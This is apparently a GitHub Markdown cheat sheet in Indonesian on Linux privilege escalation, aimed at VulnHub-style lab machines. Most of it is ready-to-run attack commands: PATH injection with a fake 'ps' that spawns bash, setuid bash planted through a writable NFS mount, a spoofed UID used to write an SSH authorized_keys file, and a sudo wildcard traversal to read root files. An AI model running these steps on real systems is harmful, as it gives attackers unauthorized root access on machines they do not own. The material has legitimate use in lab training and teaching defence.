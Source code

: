 # Usefool Tools and links
Cek Priv Esc
https://github.com/sleventyeleven/linuxprivchecker

Kalau stuck bisa kesini
https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/

# Kernel Exploit
Intinya nyari apakah versi kernel vuln. Cara ceknya
`uname -a`
Terus cari exploitnya -> Compile -> Run -> Boom

# Checklist
![Linux PrivEsc](linux_privesc.jpg)

12. LD_PRELOAD
13. PATH INJECTION

# Path Injection
Path injection terjadi karena pemanggilan binary dengan akses root yang tidak menggunakan full path. Contoh pemangilan yang benar
```
/usr/local/bin/nmap -sV 192.168.1.1
```

Contoh pemanggilan yang salah
```
nmap -sV 192.168.1.1
```
Kenapa kok bisa salah? karena hal ini bisa menjadi celah PATH injection. 

Linux menggunakan PATH untuk memanggil aplikasi tanpa menulis full path. Sama seperti Environment variable di windows. Namun ketika aplikasi ini dipanggil tanpa full path dengan akses root, maka kita bisa melakukan injection agar aplikasi yang dipanggil pertama kali di eksekusi pada direktori yang kita inginkan. 

```
cd /tmp
echo "/bin/bash" > ps #nama binary
chmod 777 ps
echo $PATH
export PATH=/tmp:$PATH
cd /home/raj/script
./shell
whoami
```

Ya jadi contohnya diatas, kita menambahkan $PATH direktori `/tmp` dimana diletakkan di awal, sehingga aplikasi yang tanpa full path tadi akan mencari pertama kali ke folder `tmp`

# NFS
Kalau menemukan NFS, coba mount 

```
showmount -e 192.168.1.9
```

Terus kalau muncul direktori yang boleh dimount, kita langsung mount ke tmp directory

Attacker machine : 
```
mkdir /tmp/mydrive
sudo mount -t nfs 192.168.1.9:/home/deon /tmp/mydrive
cd /tmp/mydrive
cp /bin/bash .
chmod +s bash
```

Lalu pada victim maching:
```
cd /home/deon
./bash -p
```

## NFS restricted
Studi kasus Vulnix dimana hasil mount hanya bisa diakses oleh user dengan nama vulnix dan id 2008, maka untuk melakuknnya adalah

```
useradd -u 2008 vulnix
passwd vulnix
mkdir /home/vulnix
chown vulnix:vulnix /home/vulnix
su vulnix
ssh-keygen -t rsa
cd /tmp/mydrive
mkdir ./.ssh
cat /home/vulnix/.ssh/id_rsa.pub > ./.ssh/authorized_keys
```
Perintah diatas, kita membuat SSH key pair agar bisa login dengan key, nah keynya disimpan pada `/home/vulnix` yang dalam ini kita  mound ke `/tmp/mydrive`
Lalu sebagai user root, login ssh dengan key tsb
```
ssh -i /home/vulnix/.ssh/id_rsa vulnix@192.168.1.9
```

# Asterisk
Jika saat melakukan `sudo -l`, muncul seperti ini :
```
(root) NOPASSWD: /bin/cat /accounts/*, (root) /bin/ls /accounts/*
```
Artinya kita bisa menjalankan `cat` atau `ls` sebagai root. Perhatikan bahwa kita hanya boleh menggunakan perintah tersebut pada direktori `/accounts/*`, yang menarik disini adalah asterisk `*` dimana memiliki celah kita bisa baca di direktori mana saja. Sehingga exploitnya
```
sudo /bin/cat /accounts/../root/root.txt
```
Kita bisa menggunakan file inclusion
Latihan : SkyTower  VulnHub

# PS 
perintah `ps` digunakan untuk menampilkan proses yang sedang berjalan. 

Biasanya pada saat mendapakatkan low shell, kita berada pada user `www-data`, misalnya terdapat user dengan nama `andy` dan semua cara sudah kita lakukan namun tidak menemukan cara untuk priv esc ke `andy`, maka coba lihat apakah ada proses yang dijalankan oleh andy
```
ps aux | grep andy
```

Nah jika ada maka tes proses/aplikasi yang dijalankan apakah ada RCE